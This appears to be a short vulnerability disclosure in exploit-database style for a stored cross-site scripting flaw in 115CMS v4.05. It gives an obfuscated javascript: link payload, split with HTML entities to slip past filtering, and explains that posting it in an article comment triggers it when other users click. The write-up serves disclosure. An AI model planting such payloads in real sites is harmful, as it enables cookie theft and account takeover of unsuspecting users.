 ## Information

```c
Exploit Title:115CMS-v4.05-Cross Site Scripting(XSS)
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.115cms.com/
Affect Version:v4.05
Description:There is an XSS vulnerability in 115CMS-v4.05. Attackers can steal users' cookies and other information by constructing malicious request packets
```

## How to Exploit

Login with test1 user and insert malicious XSS code into the comment area of the article.

```
<a href=javasc&NewLine;ript&colon;alert(1)>test<a>
```

![insert](img/a.png)

When other users click on the malicious link in the comments, the malicious XSS code will be triggered

![execute](img/b.png)

## Reference

https://www.115cms.com/
